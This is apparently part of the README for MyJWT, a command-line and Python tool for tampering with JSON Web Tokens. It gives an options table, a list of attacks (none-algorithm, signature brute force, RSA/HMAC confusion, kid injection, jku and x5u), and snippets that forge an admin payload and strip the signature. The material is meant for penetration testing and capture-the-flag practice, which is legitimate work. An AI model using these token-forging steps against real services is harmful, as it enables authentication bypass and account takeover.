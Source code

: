 ## Send your jwt

| Option                      | Type      | Example  | help|
--- | --- | --- | ---
|  -u, --url                  | url       |  http://challenge01.root-me.org/web-serveur/ch59/admin|  Url to send your jwt.
| -m, --method                | text      | POST  | Method use to send request to url.(Default: GET).
| -d, --data                  | key=value | secret=MY_JWT  | Data send to your url.Format: key=value. if value = MY_JWT value will be replace by your new jwt.
|  -c, --cookies              | key=value | secret=MY_JWT  | Cookies to send to your url.Format: key=value.if value = MY_JWT value will be replace by your new jwt.

## Other

| Option                      | Type      | Example  | help|
--- | --- | --- | ---
|  --crt                      | PATH       |  ./public.crt|  For x5cHeader, force crt file
|  --key                      | PATH       |  ./private.pem|  For jku or x5c Header, force private key to your key file
|   --file                    | text       |  myfile|  For jku Header, force file name without .json extension
|  --print                    | Nothing    |  |  Print Decoded JWT
|  --help                     | Nothing    |  |   Show Helper message and exit.
|  --version                  | Nothing    |  |  Show Myjwt version

# Examples
- [Modify Your jwt](#modify-your-jwt)
- [None Vulnerabilty Check](#none-vulnerability)
- [Sign Key](#sign-key)
- [Brute Force Signature](#brute-force)
- [RSA/HMAC Confusion](#rsahmac-confusion)
- [Kid Injection](#kid-injection)
- [Send your new Jwt to url](#send-your-new-jwt-to-url)
- [Jku Vulnerability](#jku-vulnerability)
- [X5u Vulnerability](#x5u-vulnerability)
## Modify your Jwt
### CLI
```
myjwt YOUR_JWT --add-payload "username=admin" --add-header "refresh=false"
```
### Code
```
from myjwt.modify_jwt import add_header, change_payload
from myjwt.utils import jwt_to_json, SIGNATURE, encode_jwt

jwt_json = jwt_to_json(jwt)
jwt_json = add_header(jwt_json, {"kid": "001"})
jwt_json = change_payload(jwt_json, {"username": "admin"})
jwt = encode_jwt(jwt_json) + "." + jwt_json[SIGNATURE]
```
Full example here: [01-modify-jwt](https://github.com/mBouamama/MyJWT/blob/master/examples/01-modify-jwt/modify-jwt.py)
## None Vulnerability
### CLI
```
myjwt YOUR_JWT --none-vulnerability
```
### CODE
```
from myjwt.utils import jwt_to_json, SIGNATURE, encode_jwt
from myjwt.vulnerabilities import none_vulnerability
jwt_json = jwt_to_json(jwt)
jwt = none_vulnerability(encode_jwt(jwt_json) + "." + jwt_json[SIGNATURE])
```